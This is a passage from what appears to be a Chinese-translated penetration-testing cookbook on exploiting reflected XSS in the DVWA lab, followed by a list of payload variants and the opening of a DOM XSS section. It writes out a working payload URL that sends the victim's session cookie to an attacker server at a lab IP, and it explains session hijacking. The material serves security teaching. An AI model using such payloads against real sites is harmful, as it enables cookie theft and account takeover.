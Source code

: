 1.  在名称文本框中输入以下有效负载：

[PRE0]

![](assets/55350ad2-5d35-487a-aa21-ef9dbb4db8ef.png)

1.  现在，返回到正在运行Python服务器的终端，查看它如何接收到新的请求：

![](assets/174cb73f-6f7d-4623-a2a3-82a299c6f092.png)

请注意，URL参数（在`GET`之后）包含了用户的会话cookie。

# 它是如何工作的...

在像XSS这样的攻击中，需要用户交互才能利用漏洞，攻击者通常无法控制用户何时点击恶意链接或执行导致应用程序受到威胁的操作。在这种情况下，攻击者应该设置一个服务器来接收受害者发送的信息。

在这个示例中，我们使用了Python提供的`SimpleHTTPServer`模块，但更复杂的攻击显然需要更复杂的服务器。

之后，进入DVWA并在名称文本框中输入有效负载，模拟用户点击攻击者发送的链接`http://192.168.56.11/dvwa/vulnerabilities/xss_r/?name=Bob<script>document.write('<img src="http://192.168.56.10:88/'+document.cookie+'">');</script>`。一旦用户的浏览器加载页面并将有效负载解析为JavaScript代码，它将尝试访问存储在攻击者服务器上的图片（`http://192.168.56.10:88`，即我们的Kali虚拟机），其中cookie的值作为文件名。攻击者的服务器将注册此请求并返回404 Not Found错误；然后，攻击者可以获取记录的会话cookie，并利用它劫持用户的会话。

# 另见

在这个示例中，我们使用了`<script>`标签将JavaScript代码块注入到页面中；然而，这并不是我们唯一可以使用的HTML标签，特别是在HTML5的新增标签中，例如`<video>`和`<audio>`。让我们看看一些其他的有效负载，看看如何利用XSS漏洞：

+   在带有`src/source`参数的标签（如`<img>`、`<audio>`和`<video>`）上生成错误事件：

[PRE1]

或者，使用以下方法：

[PRE2]

或者，这也是一种方法：

[PRE3]

+   注入一个加载外部JavaScript文件的`<script>`标签：

[PRE4]

+   如果注入的文本作为HTML标签中的值，并被引号（`"`）包围，例如`<input value="injectable_text">`，我们可以关闭引号并向代码中添加事件。例如，将`injectable_text`替换为以下代码。注意，最后一个引号没有关闭，因此我们可以使用HTML代码中已存在的那个引号：

[PRE5]

+   注入一个链接或其他带有`href`属性的标签，使其在被点击时执行代码：

[PRE6]

有许多种标签、编码和指令的变种可以用来利用XSS漏洞。更多的参考资料，请查看OWASP XSS过滤器绕过备忘单：[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)。

# 利用DOM XSS

也称为客户端XSS，DOM XSS之所以这样命名，是因为有效载荷由浏览器的DOM接收和处理，这意味着注入的代码永远不会到达服务器，任何服务器端的验证或编码都无法防御这种攻击。

